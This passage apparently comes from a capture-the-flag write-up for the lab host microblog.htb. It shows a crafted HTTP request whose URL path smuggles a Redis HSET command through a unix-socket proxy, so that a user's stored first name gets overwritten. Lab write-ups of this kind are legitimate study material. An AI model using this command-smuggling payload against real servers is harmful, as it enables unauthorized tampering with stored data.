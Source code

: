 #### Redis Write POC

The keys I noted above were set with `HSET`, which according to the
[docs](https://redis.io/commands/hset/), takes a key followed by field and
value pairs. That should work similar to above, but rather than just key /
value, I’ll pass field as well.

I’ll send:

    
    
    HSET /static/unix:%2fvar%2frun%2fredis%2fredis.sock:oxdf%20%22first-name%22%20%22modified%22%20/0xdf.js HTTP/1.1
    Host: microblog.htb
    

This will become:

    
    
    HSET oxdf "first-name" "modified" HTTP/1.0
    Host: localhost
    

I’ll send this, and the response is a crash:

![image-20230515160237326](../img/image-20230515160237326.png)

But, on refresh, my first name is changed!
